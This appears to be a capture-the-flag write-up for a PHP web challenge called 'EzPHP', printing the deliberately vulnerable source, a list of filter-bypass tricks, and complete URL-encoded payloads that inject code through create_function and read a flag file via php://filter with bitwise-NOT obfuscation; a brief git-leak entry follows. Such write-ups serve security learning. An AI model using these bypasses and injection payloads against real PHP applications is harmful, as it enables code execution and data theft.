## EzPHP

F12
![](attachments/Pasted%20image%2020240330085926.png)

base32

1nD3x.php
```php
<?php  
highlight_file(__FILE__);  
error_reporting(0); $file = "1nD3x.php";  
$shana = $_GET['shana'];  
$passwd = $_GET['passwd'];  
$arg = '';  
$code = '';  
  
echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";  
  
if($_SERVER) {   
    if (        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])  
        )    
        die('You seem to want to do something bad?');   
}  
  
if (!preg_match('/http|https/i', $_GET['file'])) {  
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') {         
    $file = $_GET["file"];   
        echo "Neeeeee! Good Job!<br>";  
    }   
} else die('fxck you! What do you want to do ?!');  
  
if($_REQUEST) {   
    foreach($_REQUEST as $value) {   
        if(preg_match('/[a-zA-Z]/i', $value))    
            die('fxck you! I hate English!');   
    }   
}   
  
if (file_get_contents($file) !== 'debu_debu_aqua')  
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");  
  
  
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){    extract($_GET["flag"]);  
    echo "Very good! you know my password. But what is flag?<br>";  
} else{  
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");  
}  
  
if(preg_match('/^[a-z0-9]*$/isD', $code) || preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) {   
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w=");   
} else {   
    include "flag.php";    $code('', $arg);   
} ?>
```

- `$_SERVER`不做urldecode get传参urlencode绕过
- `preg_match`忽略%0a 在尾部添加
- `$_REQUEST`获取POST传参的优先级较高，在POST中传入对应的参数=1
- `sha1`数组绕过
- create_function 注入




`1nD3x.php?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67%5b%63%6f%64%65%5d=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67%5b%61%72%67%5d=%7d%76%61%72%5f%64%75%6d%70%28%67%65%74%5f%64%65%66%69%6e%65%64%5f%76%61%72%73%28%29%29%3b%2f%2f`

![](attachments/Pasted%20image%2020240330094038.png)

在create_function的部分做文件包含

取反绕过对函数的正则匹配

`php://filter/convert.base64-encode/resource=rea1fl4g.php`

```php
<?php
$str = "php://filter/convert.base64-encode/resource=rea1fl4g.php";

echo(urlencode(~($str)));
```

`%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F`

payload
```
1nD3x.php?%66%69%6c%65=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0a&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2&%66%6c%61%67%5b%63%6f%64%65%5d=%63%72%65%61%74%65%5f%66%75%6e%63%74%69%6f%6e&%66%6c%61%67%5b%61%72%67%5d=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//
```

![](attachments/Pasted%20image%2020240330095727.png)

## Mark loves
#git
git泄露

![](attachments/Pasted%20image%2020240404144016.png)

![](attachments/Pasted%20image%2020240404145206.png)